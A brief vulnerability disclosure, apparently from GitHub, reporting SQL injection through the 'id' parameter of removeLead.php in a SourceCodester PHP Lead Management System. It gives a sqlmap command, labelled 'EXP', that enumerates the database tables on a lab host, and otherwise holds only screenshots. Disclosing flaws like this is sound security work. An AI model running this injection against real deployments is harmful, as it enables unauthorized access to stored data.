 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20221219163848150](C:\markdown\images\image-20221219163848150.png)

EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeLead.php?id=1" --dbms=mysql -D penglead --tables
```

![image-20221219163551220](C:\markdown\images\image-20221219163551220.png)
